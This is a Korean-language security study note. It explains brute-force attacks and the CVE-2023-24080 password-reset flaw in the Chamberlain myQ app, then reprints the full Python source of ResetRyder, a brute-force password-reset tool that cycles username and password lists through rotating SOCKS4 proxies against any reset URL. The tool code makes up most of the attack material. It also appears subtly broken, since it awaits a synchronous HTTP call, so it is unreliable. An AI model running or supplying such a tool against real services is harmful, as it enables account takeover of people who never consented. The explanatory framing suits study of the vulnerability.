


# 01-계정관리

※ 무작위 대입 공격(Brute Force Attack): 특정한 암호를 풀기 위해 가능한 모든 값을 대 입하는 공격 방법&#x20;

※ 사전 대입 공격(Dictionary Attack): 사전에 있는 단어를 입력하여 암호를 알아내거나 암호를 해독하는 데 사용되는 컴퓨터 공격 방법


2023년 2월, CVE-2023-24080 취약점을 참고하여 만든 [resetryder](https://github.com/SirCryptic/resetryder) tool을 이용하여 무차별 대입 로그인 통신 과정을 알아보았다.


**CVE-2023-24080이란 무엇인가?**

Chamberlain myQ v5.222.0.32277(iOS)의 비밀번호 재설정 엔드포인트에서는 속도 제한이 없는 취약점이 발견 되었고 이 취약점은 공격자가 무차별 대입 공격을 통해 사용자 계정을 손상시킬 수 있는 취약점이다.


1. 공격자는 피해자의 이메일 계정에 대한 사전 지식이 필요합니다. 또는 이  취약점을 발견한 사람처럼 공격자는 피해자의 계정이 있는지 확인하기 위해 다음 End point에 반복적으로 요청을 할 수 있다.

```
POST /api/Account/ForgotPassword

```

2. 아래는 존재하지 않는 계정인 jim@brackish.io 의 base 64 인코딩 버전이다 . 계정이 있는 경우 이 매개변수는 Location 응답 헤더에 없다 . 피해자의 이메일이 발견되면 계정 탈취는 간단하다. 이 취약점의 핵심은 속도 제한이 없다는 것이다.

```
email=amltQGJyYWNraXNoLmlv
```


3. 이 요청의 본문에는 (다른 매개 변수 중에서) 피해자에게 이메일로 전송되는 재설정 코드가 포함되어 있다.&#x20;

```
Code=5308
```

<figure><figcaption><p>수천 건의 요청 후 재설정 코드가 적중되면 302 응답</p></figcaption></figure>


재설정 코드는 길이가 4자리에 불과하며 이 End point에는 속도 제한이 없다. 공격자는 자유롭게 이 코드를 무차별 대입하고 피해자의 암호를 재설정 할 수 있다. 이 문제는 2023년 1월 10일에 Chamberlain에 보고되었다.

출처 : [https://nvd.nist.gov/vuln/detail/CVE-2023-24080](https://nvd.nist.gov/vuln/detail/CVE-2023-24080http:/web.archive.org/web/20230122144550/https://brackish.io/chamberlain-myq-account-takeover/)[
\
http://web.archive.org/web/20230122144550/https://brackish.io/chamberlain-myq-account-takeover/
](https://nvd.nist.gov/vuln/detail/CVE-2023-24080http:/web.archive.org/web/20230122144550/https://brackish.io/chamberlain-myq-account-takeover/)


그러면 이 취약점을 응용하여 만든 툴을 사용해보자

**ResetRyder - Open Source Brute Force Password Reset Tool**

이 있는데 이 Tool이 CVE-2023-24080 취약점을 응용한 툴이다.

<figure><figcaption><p><a href="https://github.com/SirCryptic/resetryder">https://github.com/SirCryptic/resetryder</a></p></figcaption></figure>


아래에는 해당 tool의 python3 code이다.

```
import time
import requests
import random
import argparse
import asyncio

# Developer: SirCryptic (NullSecurityTeam)
# Info:      ResetRyder - Brute force password reset tool - By NullSecurityTeam
# Note/s:    Based on CVE-2023-24080 not only just for Chamberlain myQ v5.222.0.32277 (on iOS)
#            This code will work for any web application that has a similar vulnerability.
#            The author of this script is not responsible for any damage caused by the use or misuse of this script. 
#            These PoCs are intended for educational and research purposes only, and should never be used to target or exploit systems without explicit permission from the owner.

password_list_path = ""
username_list_path = ""
reset_password_url = ""
rate_limit_time = 1
proxy_list_path = ""
max_retries = 3
max_timeout = 10
max_concurrent_requests = 10

parser = argparse.ArgumentParser(description="ResetRyder - Brute force password reset tool - By NullSecurityTeam")
parser.add_argument("-p", "--password_list", required=True, help="Path to the password list file")
parser.add_argument("-u", "--username_list", required=True, help="Path to the username list file")
parser.add_argument("-r", "--reset_password_url", required=True, help="Reset password URL")
parser.add_argument("-t", "--rate_limit_time", type=int, default=1, help="Rate limiting time in seconds (e.g., 1)")
parser.add_argument("-x", "--proxy_list", required=True, help="Path to the SOCKS4 proxy list file")
parser.add_argument("-a", "--max_retries", type=int, default=3, help="Maximum number of retries for failed requests")
parser.add_argument("-o", "--max_timeout", type=int, default=10, help="Maximum timeout for requests in seconds")
parser.add_argument("-c", "--max_concurrent_requests", type=int, default=10, help="Maximum number of concurrent requests")
args = parser.parse_args()

password_list_path = args.password_list
username_list_path = args.username_list
reset_password_url = args.reset_password_url
rate_limit_time = args.rate_limit_time
proxy_list_path = args.proxy_list
max_retries = args.max_retries
max_timeout = args.max_timeout
max_concurrent_requests = args.max_concurrent_requests

with open(password_list_path, "r") as f:
    password_list = [line.strip() for line in f]

with open(username_list_path, "r") as f:
    username_list = [line.strip() for line in f]

with open(proxy_list_path, "r") as f:
    proxy_list = [line.strip() for line in f]

headers = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.3"
}

async def reset_password(username, password):
    for i in range(max_retries):
        payload = {"username": username, "new_password": password, "confirm_new_password": password}
        proxy = {"socks4": proxy_list[random.randint(0, len(proxy_list) - 1)]}
        try:
            response = await asyncio.wait_for(requests.post(reset_password_url, headers=headers, data=payload, proxies=proxy, timeout=max_timeout), timeout=max_timeout)
            if "password reset successful" in response.text.lower():
                print(f"Password reset successful for user {username}. New password: {password}")
                return True
            else:
                print(f"Password reset failed for user {username} and password: {password}")
        except:
            pass
    return False

async def main():
    tasks = []
    semaphore = asyncio.Semaphore(max_concurrent_requests)
    async with semaphore:
        for username in username_list:
            for password in password_list:
                task = asyncio.create_task(reset_password(username, password))
                tasks.append(task)
                await asyncio.sleep(rate_limit_time)
    results = await asyncio.gather(*tasks)
    print(f"Total requests: {len(results)}, Successful requests: {sum(results)}")

asyncio.run(main())
```


